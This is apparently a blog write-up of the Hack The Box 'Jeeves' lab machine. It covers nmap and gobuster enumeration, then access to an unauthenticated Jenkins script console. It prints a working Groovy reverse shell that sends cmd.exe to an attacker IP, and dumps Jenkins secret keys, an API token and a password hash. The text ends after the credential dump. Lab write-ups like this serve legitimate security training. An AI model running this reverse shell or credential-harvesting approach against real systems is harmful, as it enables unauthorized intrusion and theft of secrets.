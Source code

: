 ```yaml
---
layout: post
title:  "Write Up: Hack The Box - Jeeves"
date:   2024-08-14 12:47:39 -0400
categories: oscp windows priv-esc tcm-security course
---
```


10.10.10.63
me - 10.10.14.35

As always we kick off with an nmap scan which returns the following:

```
└─$ sudo nmap -sC -sV -p- -oA jeeves 10.10.10.63                                                                   
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-16 18:46 EDT
Nmap scan report for 10.10.10.63
Host is up (0.020s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-08-17T03:48:45
|_  start_date: 2024-08-17T03:41:27
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m02s, deviation: 0s, median: 4h59m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 210.52 seconds
```

Going to also kick off an autorecon scan now to do more thorough scans. Anywhooooo going to try and see if we cab;t get some sweet smb action going; I tried a couple basics to see if I can get any info but not able to do anonymous login so kinda limited at the moment, might be able to get into it later so putting a pin in it for now.

[screenshot]

Loading this bad boi up in the browser we get an askjeeves landing page:

[screenshot - jeeves landing]

but after trying a couple searches I keep getting this same exception back:

[screenshot - jeeves failing]

Opening up port 5000 in the browser returns an error page:

[screenshot - 5000 err]

So quickly running out of options from the nmap search, doing to run a dirsearch and some gobuster searches to see what other tasty tidbits we can turn up.

```
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 503]
/Index.html           (Status: 200) [Size: 503]
/error.html           (Status: 200) [Size: 50]
/INDEX.html           (Status: 200) [Size: 503]
/Error.html           (Status: 200) [Size: 50]

gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]

```

Hitting http://10.10.10.63:50000/askjeeves brings up a jenkins page....lol. After doing some digging for a bit I was able to get to teh groovy script console without logging in and found one that I was able to use to get a reverse shell after some minor changes to work with windows:

```
String host="10.10.14.17";
int port=4444;
String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

secret.key
```
58d05496da2496d09036d36c99b56f1e89cc662f3e65a4023de71de7e1df8afb
```






```
C:\Users\Administrator\.jenkins\users\admin>type config.xml
type config.xml
<?xml version='1.0' encoding='UTF-8'?>
<user>
  <fullName>admin</fullName>
  <properties>
    <jenkins.security.ApiTokenProperty>
      <apiToken>{AQAAABAAAAAwID3cR3pyZaEkaDPU25Z0S+nrU8+gDgB0JEWORJ5L1P2T+zXc/tSs2IVn1ugWLaui54D6yYki4vhXQtGhqUSeFw==}</apiToken>
    </jenkins.security.ApiTokenProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$QyIjgAFa7r3x8IMyqkeCluCB7ddvbR7wUn1GmFJNO2jQp2k8roehO</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1509762882255</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```


